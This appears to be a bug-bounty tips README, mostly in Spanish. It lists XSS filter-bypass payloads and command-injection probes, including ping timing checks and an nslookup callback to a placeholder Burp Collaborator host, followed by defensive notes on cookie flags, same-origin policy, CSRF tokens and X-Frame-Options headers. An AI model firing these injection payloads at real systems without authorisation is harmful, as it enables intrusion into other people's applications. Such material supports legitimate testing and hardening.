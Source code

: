# BugBounty_tips

#Xss
%u003Csvg onload=alert(1)> \
%u3008svg onload=alert(2)> \
%uFF1Csvg onload=alert(3)> \
=<img%20src=x%20onerror=alert('Welcome,%20v
q=<g><script>alert%28document.domain%29<%2Fscript>   
<img src=x onerror=console.log("XSS")>   
‘);</script><script>alert(1)</script>  
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}

#Command Injection
url/cgi-bin/parameter=payload
payload 1 [PING]
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1 
payload 2 [Nslookup]
|nslookup -q=cname http://YOUR.burpcollaborator.net.&
  

  
cookie atributes
Las cookies son utilizadas a menudo en aplicaciones web para identificar a un usuario y su sesión
Creando
Set-Cookie: <nombre-cookie>=<valor-cookie>
Session
Expires
Securizar
Cookies Secure y HttpOnly
Previene la lectura y modificacion
Para prevenir ataques cross-site scripting (XSS (en-US)), las cookies HttpOnly son inaccesibles desde la API de Javascript Document.cookie; Solamente se envían al servidor. Por ejemplo, las cookies que persisten sesiones del lado del servidor no necesitan estar disponibles para JavaScript, por lo que debería establecerse el flag HttpOnly.

Alcance
Las directivas Domain y Path definen el alcance de la cookie: a qué URLs deberían enviarse las cookies.
Domain : especifica los hosts permitidos
Path   : espeficia directorios
Samesite
SameSite=Strict
Si una cookie same-site tiene este atributo, el navegador sólo enviará cookies si la solicitud se originó en el sitio web que estableció la cookie.y no hara en origenes distintos
Lax
Si el atributo se establece en Lax, las cookies same-site se retienen en (sub)peticiones cross-site, tales como llamadas para cargar imágenes o frames
Acceso desde JavaScript usando Document.cookie
También se pueden crear nuevas cookies via JavaScript usando la propiedad Document.cookie, y si el flag HttpOnly no está establecido

Tracking no legal  
HOW WORKS HTTPONLY
https://www.youtube.com/watch?v=d8liHExs5tc
https://www.youtube.com/watch?v=ZSUGfIy1ds8
https://www.youtube.com/watch?v=brNL_bvUCck


 
SameOriginPolicy Sop
https://developer.mozilla.org/es/docs/Web/Security/Same-origin_policy
Origen se refiere a si dos pagunas tienen el protocolo y el mismo puerto .
La política same-origin (mismo-origen) restringe cómo un documento o script cargado desde un origen puede interactuar con un recurso de otro origen. Es un mecanismo de seguridad crítico para aislar documentos potencialmente maliciosos

CSRF
Los endpoints GET no deben tener acciones de modificación, y si esto se necesita se debería requerir una petición POST. Además los endpoints POST no debería aceptar la intercambiabilidad de aceptar peticiones GET con parametros en query string
Un token CSRF debería ser incluido en cada elemento <form> mediante un input oculto. Este token debe ser único para cada usuario y almacenado (por ejemplo, en una cookie). De esta forma el servidor puede mirar si el valor requerido es enviado, y en cierto modo lo idea sería descartar la petición si el valor no concuerda con lo esperado.
Este método de protección recae en la imposibilidad de que un atacante pueda predecir este token autogenerado en cada inicio de sesión. Cabe aclarar que este token debería ser regenerado en cada inicio de sesión.
Al igual que con {{Glosario ("XSS")}}, el filtrado de entrada es importante.
Debería de existir siempre un requerimiento de confirmación para cualquier acción delicada,.
Las cookies empleadas en acciones delicadas deberían de tener una vida útil breve.

  
  
X-Frame-Options
La página sólo puede ser mostrada en un marco del mismo origen que dicha página.
X-Frame-Options: DENY
La página no puede ser mostrada en un marco, independiente del sitio que esté intentándolo.
X-Frame-Options: SAMEORIGIN
La página sólo puede ser mostrada en un marco del mismo origen que dicha página.
X-Frame-Options: ALLOW-FROM https://example.com/
La página sólo puede ser mostrada en un marco del origen especificado.Tenga en cuenta que en Firefox esto todavía sufre del mismo problema que SAMEORIGIN
  
SOLUCIÓN
Apache
Header always append X-Frame-Options SAMEORIGIN
Header set X-Frame-Options DENY
Header set X-Frame-Options "ALLOW-FROM https://example.com/"
Nginx
add_header X-Frame-Options SAMEORIGIN;
IIS
<system.webServer>
   <httpProtocol>
    <customHeaders>
      <add name="X-Frame-Options" value="SAMEORIGIN" />
    </customHeaders>
  </httpProtocol>
</system.webServer>
  
  
  
  
  
  
  
 
  



